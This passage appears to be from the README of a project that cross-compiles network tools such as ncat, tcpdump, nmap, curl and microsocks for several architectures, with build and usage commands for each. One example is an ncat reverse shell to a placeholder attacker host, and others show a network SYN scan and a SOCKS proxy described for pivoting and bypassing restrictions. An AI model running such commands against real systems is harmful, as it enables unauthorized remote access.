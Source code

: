 ```bash
./build ncat --arch arm32v5le
./build ncat-ssl --arch arm32v5le  # With SSL support

# Simple reverse shell
./output/arm32v5le/ncat attacker_ip 4444 -e /bin/sh
```

#### tcpdump
**Network packet analyzer** - Capture and analyze network traffic.

```bash
./build tcpdump --arch powerpcle
./output/powerpcle/tcpdump -i eth0 host target_ip
```

#### nmap
**Network exploration tool** - Port scanning and network discovery.

```bash
./build nmap --arch aarch64
./output/aarch64/nmap -sS target_network/24
```

#### curl / curl-full
**HTTP/HTTPS client** - Command-line tool for transferring data with URLs.

```bash
./build curl --arch x86_64        # Basic curl with HTTP/HTTPS
./build curl-full --arch x86_64   # Full features including protocols like FTP, LDAP, etc.

# Basic usage
./output/x86_64/curl https://example.com
./output/x86_64/curl -X POST -d "data" https://api.example.com
```

**curl** - Minimal build with HTTP/HTTPS support
**curl-full** - Full-featured build with additional protocols

#### microsocks
**Lightweight SOCKS5 proxy** - Minimal SOCKS5 proxy server implementation.

```bash
./build microsocks --arch arm32v7le

# Run SOCKS5 proxy on port 1080
./output/arm32v7le/microsocks -p 1080

# With authentication
./output/arm32v7le/microsocks -u username -P password -p 1080
```

**Use cases**: Tunneling, network pivoting, bypassing network restrictions

### System Tools
